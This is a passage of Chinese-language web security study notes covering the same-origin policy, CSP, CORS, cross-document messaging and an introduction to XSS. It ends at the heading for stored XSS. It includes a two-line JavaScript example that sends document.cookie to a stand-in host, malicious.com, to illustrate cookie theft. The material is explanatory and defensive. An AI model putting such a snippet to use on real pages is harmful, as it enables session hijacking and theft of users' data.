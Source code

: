 于是乎同源策略对页面的引用资源开了个小口，可以任意引用外部文件

但是，比如我们现在首页被恶意程序劫持了，劫持手段很多，最常见的是恶意程序通过各种途径往 HTML 文件插入恶意脚本

比如我们在页面插入了一段脚本，HTML 送到浏览器的时候，浏览器无法知道是恶意的文件还是正常的，页面启动的时候可以去修改用户的搜索结果，改变内容指向

也可以把页面的敏感信息通过 xss 手段发送给服务器，比如点击了一个恶意链接，恶意的 JavaScript 代码读取数据发送给服务器。比如下面这段代码

```js
let url = `http://malicious.com?cookie = ${document.cookie}`;
open(url);
```

读取了 cookie，作为参数放到恶意站点尾部，服务器就能获取到用户的 cookie 信息了

为了解决 xss 引入了内容安全策略 CSP，核心思想是让服务器决定浏览器能够加载哪些资源，决定浏览器是否可以执行内联的 JavaScript 代码，大大减少了 xss 攻击

### 跨域资源共享和跨域文档消息机制

我们在官网 A 通过 XMLHttpRequest 请求 InfoQ 的资源，同源策略会限制我们发出请求，大大制约了生产力

我们引入了跨域资源共享（CORS），使用它进行跨域访问控制，让跨域数据传输更加安全进行

我们也说明了不同源无法互相操作 DOM，但是如果两个不同源 DOM 要通信的话，浏览器加入了跨文档消息机制，可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信

### 总结：

- 页面可以引入第三方资源，但是暴露了比如 XSS 的安全问题，在开放的基础上引入 CSP 限制自由程度
- XMLHttpRequest 无法进行跨域请求，在这严格策略基础上引入了跨站资源共享策略
- 不同源 DOM 无法互相操纵，引入跨文档消息机制

# 跨站脚本攻击 XSS：为什么 cookie 中有 httpOnly 属性

## 什么是 XSS 攻击

XSS 全称 Cross Site Scripting，跨站脚本攻击。指的是黑客往 HTML 文件或者 DOM 注入恶意脚本，用户浏览页面的时候利用注入的恶意脚本对用户进行攻击的手段

一开始是通过跨域来实现的，所以叫跨域脚本，但是现在 HTML 文件注入恶意代码的方法越来越多，跨域注入脚本不是唯一手段了。但是名字还是一直保留

页面注入脚本，浏览器无法区分是恶意还是正常的脚本，所以恶意脚本也有各种页面权限。我们看看恶意脚本能做什么

- 窃取 cookie，通过 document.cookie 获取 cookie 信息，通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能把数据发送给恶意服务器，恶意服务器拿到 cookie 信息可以在电脑上模拟登录，进行恶意操作
- 监听用户行为，比如使用 addEventListener 接口监听键盘事件，获取用户输入的信用卡信息，发到恶意浏览器，黑客又可以做很多事情了
- 修改 DOM 伪造登陆窗口，欺骗用户输入用户名和密码
- 生成浮窗广告，严重影响用户体验

注入了恶意脚本相当于页面的隐私数据完全暴露给黑客了

## 恶意脚本是怎么注入的

通常有 存储型 XSS 攻击，反射型 XSS 攻击，基于 DOM 的 XSS 攻击

### 存储型 XSS 攻击
